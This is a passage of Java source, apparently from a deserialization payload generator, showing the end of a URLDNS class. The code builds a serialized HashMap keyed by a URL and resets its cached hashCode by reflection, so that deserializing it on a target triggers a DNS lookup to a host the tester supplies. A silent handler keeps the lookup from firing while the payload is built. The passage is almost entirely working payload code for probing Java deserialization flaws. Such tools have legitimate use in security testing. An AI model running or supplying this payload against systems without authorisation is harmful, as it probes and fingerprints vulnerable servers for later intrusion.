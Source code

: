 ```java
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        /**
         * <p>This instance of URLStreamHandler is used to avoid any DNS resolution while creating the URL instance.
         * DNS resolution is used for vulnerability detection. It is important not to probe the given URL prior
         * using the serialized object.</p>
         *
         * <b>Potential false negative:</b>
         * <p>If the DNS name is resolved first from the tester computer, the targeted server might get a cache hit on the
         * second resolution.</p>
         */
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}

```

